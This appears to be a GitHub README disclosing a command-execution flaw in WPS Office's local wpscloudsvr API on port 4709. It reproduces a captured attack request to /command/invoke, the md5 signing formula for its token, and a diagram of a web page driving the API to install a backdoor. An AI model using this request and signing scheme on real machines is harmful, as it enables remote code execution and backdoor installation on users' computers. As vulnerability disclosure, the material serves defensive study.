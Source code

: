 # Chinese-hackers-use-WPS-to-attack
We caught a batch of malicious attacks from Chinese hackers!We caught a batch of malicious attacks from Chinese hackers
# China-office-software-wps-web-command-execution
When the wps software is running, an api interface with port 4709 will be opened. An attacker can request this interface to execute commands.

# What is Wps?
WPS Office is a widely used office suite with a user base of over 200 million, developed by Chinese company Kingsoft.

# What is Wps wpscloudsvr Api?
As we said, wps(wpscloudsvr.exe)will listen to port 127.0.0.1:4709 when it starts, but it cannot be accessed by normal access. You need to use a domain name to access, such as: http://localhost.wbridge.wps.cn:4709

![Listen](https://github.com/George-boop-svg/Chinese-hackers-use-WPS-to-attack/blob/main/Listen%204709.png)

If you run wps and find that port 4709 is listened to, you can directly access the URL.

![Web](https://github.com/George-boop-svg/Chinese-hackers-use-WPS-to-attack/blob/main/web%20api.png)

# How to use api to execute commands?

Some time ago we captured a web request from an attacker as follows:
```
POST /command/invoke HTTP/1.1
Host: localhost.wbridge.wps.cn:4709
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 732
Origin: https://docs.wps.cn
Referer: https://docs.wps.cn/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-site
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua: "Google Chrome";v="114", "Chromium";v="114", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Te: trailers
Connection: close

app_id=kdocs&cmd=ksoqing%3A%2F%2Ftype%3Dksolaunch%26cmd%3DcGx1Z2luOi8vcGFnZUNsb3VkRG9jcz91cmw9aHR0cHM6Ly9haXJzaGVldC1jb21tdW5pdHkud3BzLmNuLw%3d%3d%26token%3D7b542dc31594d4f443dfc073fcb8abd3&ks_local_token=2BwJYEBTwY2ueCNrylNVQhMGt8QMNR3A&nonce_str=AbQ5fb66Q23E2yG3dbSM2TQ8M4HmD7i8&t=1695719826922&sign=C16B6005259121B111BF72787186D057FF191D04D2374F47E064F7A541B3601A
```
After the above request package is executed, the api interface of wps will be triggered and a wps official website will be opened. The attacker's malicious payload will be stored in the website. After loading, the backdoor will be downloaded to the specified directory and run.

## Simple analysis
Let’s do a simple analysis here.
Through reverse analysis, we found that cmd is the base64-encoded WPS official website domain name, because WPS restricts only some whitelisted domain names to be opened with the built-in browser, and those not in the whitelist can be opened with the user's default browser.whitelisted domain like:*.wps.cn  *.wps.com  *.wpscdn.cn  *.kdocs.cn  ....

### About Sign Token
```
md5(cmd + '_qingLaunchKey_')
```

# How hackers exploited the vulnerability?
We found that Chinese hackers are using this method to attack!
```
        (attack)
hacker >>>>>>>>>> web site(Install Js Payload Backdoor)
        (access)                           (run js payload)
user   >>>>>>>>>> web site(Hacker attack)   >>>>>>>>>>  attack wps (if you start wps and 4709 open)    >>>>>>>>>>  install backdoor
```

# End
If you want to implement command execution, you can go to https://www.wps.cn to download the software for testing.

Thanks:[Trend](https://www.trendmicro.com/)
